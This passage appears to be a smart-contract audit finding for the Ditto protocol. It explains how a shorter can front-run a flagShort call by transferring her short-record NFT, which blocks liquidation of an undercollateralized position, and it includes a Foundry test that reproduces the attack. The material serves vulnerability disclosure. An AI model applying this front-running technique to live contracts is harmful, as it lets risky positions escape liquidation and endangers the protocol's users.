 Alice is watching the mempool, and don't want her SR to be flagged:

2. She front-run Bob's tx with a transfer of her SR_1 to another of the addresses she controls

Now Bob's tx will be executed after Alice's tx:

3) The SR_1 is "deleted" and its status set to `Cancelled`
4) Bob's tx is executed, and `flagShort` reverts because of the [`onlyValidShortRecord`](https://github.com/Cyfrin/2023-09-ditto/blob/a93b4276420a092913f43169a353a6198d3c21b9/contracts/facets/MarginCallPrimaryFacet.sol#L47C9-L47C9)
5) Alice can do this trick again to keep here undercol SR until it can become dangerous

But this is not over:

6) Even when her CR drops dangerously (CR<1.5), `liquidateSecondary` is also DoS'd as it has [the same check](https://github.com/Cyfrin/2023-09-ditto/blob/a93b4276420a092913f43169a353a6198d3c21b9/contracts/facets/MarginCallSecondaryFacet.sol#L64C25-L64C25) for `SR.Cancelled` 

## Impact

Because of this, a shorter could maintain the dangerous position (or multiple dangerous positions), while putting the protocol at risk.

## Proof of Concept

Add these tests to `ERC721Facet.t.sol` :

#### Front-running flag
```solidity
	function test_audit_frontrunFlagShort() public {
		address alice = makeAddr("Alice"); //Alice will front-run Bob's attempt to flag her short
		address aliceSecondAddr = makeAddr("AliceSecondAddr");
		address bob = makeAddr("Bob"); //Bob will try to flag Alice's short 
		address randomUser = makeAddr("randomUser"); //regular user who created a bid order
		
		//A random user create a bid, Alice create a short, which will match with the user's bid
		fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, randomUser);
		fundLimitShortOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, alice);
		//Alice then mint the NFT associated to the SR so that it can be transfered
		vm.prank(alice);
		diamond.mintNFT(asset, Constants.SHORT_STARTING_ID);

		//ETH price drops from 4000 to 2666, making Alice's short flaggable because its < LibAsset.primaryLiquidationCR(asset)
		setETH(2666 ether);
		
		// Alice saw Bob attempt to flag her short, so she front-run him and transfer the SR
		vm.prank(alice);
		diamond.transferFrom(alice, aliceSecondAddr, 1);
		
		//Bob's attempt revert because the transfer of the short by Alice change the short status to SR.Cancelled
		vm.prank(bob);
		vm.expectRevert(Errors.InvalidShortId.selector);
		diamond.flagShort(asset, alice, Constants.SHORT_STARTING_ID, Constants.HEAD);
	}	
```
